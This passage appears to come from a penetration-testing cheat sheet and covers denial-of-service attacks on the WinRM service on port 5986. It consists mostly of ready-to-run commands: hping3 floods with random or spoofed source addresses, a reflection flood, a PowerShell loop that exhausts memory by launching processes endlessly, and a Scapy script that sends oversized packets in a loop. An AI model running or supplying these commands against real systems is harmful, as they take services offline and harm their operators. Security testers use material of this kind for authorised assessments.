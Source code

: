 ### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p 5986 --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p 5986 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### SSL/TLS Handshake Flood

*   **Tool:** \[\[HPing3 Cheat Sheet]]]

    ```bash
    hping3 <target_ip> -p 5986 -S --flood --rand-source -c 1000
    ```
* **Description:** Floods the service with SSL/TLS handshake requests, overwhelming the server.

#### Memory Exhaustion via WinRM

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -UseSSL -ScriptBlock {while ($true) {1..10000 | % {Start-Process "notepad"}}}
    ```
* **Description:** Exhausts system memory by repeatedly launching processes via WinRM, leading to a denial of service.

#### Service Crashing

*   **Tool:** \[\[Scapy]]

    ```bash
    from scapy.all import *
    packet = IP(dst="<target_ip>")/TCP(dport=5986,flags="S")/("A"*65000)
    send(packet, loop=1)
    ```
* **Description:** Send malformed or oversized packets to the WinRM service, potentially causing it to crash.

### Exploits
